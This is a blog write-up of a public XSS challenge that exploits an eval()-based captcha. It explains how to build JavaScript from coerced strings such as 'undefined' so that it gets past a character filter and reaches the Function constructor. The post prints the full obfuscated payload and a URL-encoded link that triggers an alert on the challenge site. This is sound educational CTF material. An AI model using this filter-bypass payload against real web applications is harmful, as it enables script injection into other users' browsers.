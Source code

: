 ```yaml
---
layout: post
title:  "May Xss Challenge Intigriti Writeup"
date:   2021-06-07 15:00:00 +0100
categories: writeup Intigriti 
---
```


### Introduction

From the main site we can see that the captcha logic is processed by the `/captcha.php` site. This end point ends up being vulnerable to rXss. Another thing to note is that we can control the content of the input box and  the content of the "b" box (which contains the plus sign) by passing `b` and `c` parameters to the site trough a `GET` request.

So let's look at the code. At some point after clicking the `submit` button this code is executed:
     
	function calc() {
		const operation = a.innerText + b.innerText + c.value;
		if (!operation.match(/[a-df-z<>()!\\='"]/gi)) { // Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
			if (d.innerText == eval(operation)) {
				alert("🚫🤖 Congratulations, you're not a robot!");
			}
			else {
				alert("🤖 Sorry to break the news to you, but you are a robot!");
			}
		setNewNumber();
		}
		c.value = "";
	}
	
	
The content of  the `a` box ,`b` box   and `c`box is joined together, and after a quick regex to check for illegal characters its **directly executed**  via `eval`. It's worth noticing that the illegal characters check is not too strict. In fact all characters that I ended up using for the final payload are allowed : `e`,`[`,`]`,`` ` ``,`$`,`{`,`}`,`;`,`+`. (Also numbers are allowed)

>Note: The majority of the tricks I used here come from @garethheyes research about [executing non alphanumeric javascript without parenthesis](https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis)

### How the exploit works

By passing `b=;` as a parameter, everything in the `input` box controlled by the `c` parameter is executed. That's because `;` after a number terminates the line immediately but it's still valid javascript. 
The trick here is crafting the javascript strings `"constructor"` and `"find"`. After doing that We can access The `Function` constructor with the following: `[]["find"]["constructor"]`.  Now we can execute  javascript by using[ template literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals) as a [calling convention](https://wesbos.com/tagged-template-literals) and also to construct the string of arbitrary code that we want to execute. 
At the end we are calling something that looks like this ```` []["find"]["constructor"]`e${"ale"+"rt(document.domain)"}``` ```` . 

The `e` character before the dollar sign `$` is necessary because for some reason using template literals this way, the string constructed inside it is passed as second argument to the `Function` constructor and whatever comes before (the `e` in this case) is passed as the first argument.

### Constructing The Strings

We already now we can't use strings directly because we basically have no direct access to alphabetic characters. The way to go here is to construct some default strings like `"undefined"` and accessing individual characters with square brackets notation. Here are the `default` strings I used:

	*  [2e500-2e500+[]] //Gives `"Nan"`
	*  [e.e+[]][0] //Gives `"Undefined"`
	*  [e+[]][0]  //Gives `"[object HTMLProgressElement]"`
	*  [[][[e.e+[]][0][4]+[e.e+[]][0][5]+[e.e+[]][0][6]+[e.e+[]][0][8]]+[]]  //Gives `"function find() { [native code] }"`
	
This works because `e` is used in [scientific notation](https://www.java2s.com/Tutorials/Javascript/Javascript_Tutorial/Data_Type/How_to_write_Scientific_notation_literal_in_Javascript.htm) as an exponential but it's also an `object` in the document( The `ProgressBar` has id=e ). For example to generate `undefined`  an unexisting propriety of `e` is accessed by doing `e.e`, after that it's converted to string using the plus sign (`e.e+[]`). To keep individual characters separated, this is enclosed in square brackets (`[e.e+[]]`), creating an array of one string. The first and only element of this array is the string `"undefined"`so we access it with `[e.e+[]][0]`. The other strings are generated using similar tricks.

### The final exploit

So we now have the ability to generate alphabetic characters and more (like the `(` and `)` characters) . By combining this with what I discussed earlier we can craft the final payload. Here is mine:

	[][[e.e+[]][0][4]+[e.e+[]][0][5]+[e.e+[]][0][6]+[e.e+[]][0][8]][[e+[]][0][5]+[e+[]][0][1]+[e+[]][0][25]+[e+[]][0][18]+[e+[]][0][26]+[e+[]][0][16]+[e.e+[]][0][0]+[e+[]][0][5]+[e+[]][0][6]+[e+[]][0][1]+[e+[]][0][16]]`e${[2e500-2e500+[]][0][1]+[e+[]][0][21]+[e+[]][0][4]+[e+[]][0][13]+[e+[]][0][26]+[[][[e.e+[]][0][4]+[e.e+[]][0][5]+[e.e+[]][0][6]+[e.e+[]][0][8]]+[]][0][13]+[e.e+[]][0][2]+[e+[]][0][1]+[e+[]][0][5]+[e.e+[]][0][0]+[e+[]][0][23]+[e.e+[]][0][3]+[e.e+[]][0][1]+[e+[]][0][6]+`.`+[e.e+[]][0][2]+[e+[]][0][1]+[e+[]][0][23]+[2e500-2e500+[]][0][1]+[e.e+[]][0][5]+[e.e+[]][0][1]+[[][[e.e+[]][0][4]+[e.e+[]][0][5]+[e.e+[]][0][6]+[e.e+[]][0][8]]+[]][0][14]}```
	
This is valid javascript and can be tested by directly executing it on the page using Developer Tools.
By [URL encoding](https://meyerweb.com/eric/tools/dencoder/) the payload and passing it as the `c` parameter we are able to craft the final malicious link:

	https://challenge-0521.intigriti.io/captcha.php?b=;&c=%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%5B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B25%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B18%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B26%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B16%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B0%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B16%5D%5D%60e%24%7B%5B2e500-2e500%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B21%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B26%5D%2B%5B%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B0%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B3%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%60.%60%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%2B%5B2e500-2e500%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5B%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%2B%5B%5D%5D%5B0%5D%5B14%5D%7D%60%60%60
	
Visit it by clicking [here](https://challenge-0521.intigriti.io/captcha.php?b=;&c=%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%5B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B25%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B18%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B26%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B16%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B0%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B16%5D%5D%60e%24%7B%5B2e500-2e500%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B21%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B26%5D%2B%5B%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B0%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B3%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%60.%60%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%2B%5B2e500-2e500%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5B%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%2B%5B%5D%5D%5B0%5D%5B14%5D%7D%60%60%60). After opening the link, clicking on `submit` and waiting just a moment for the progress bar to load, an alert pops up.

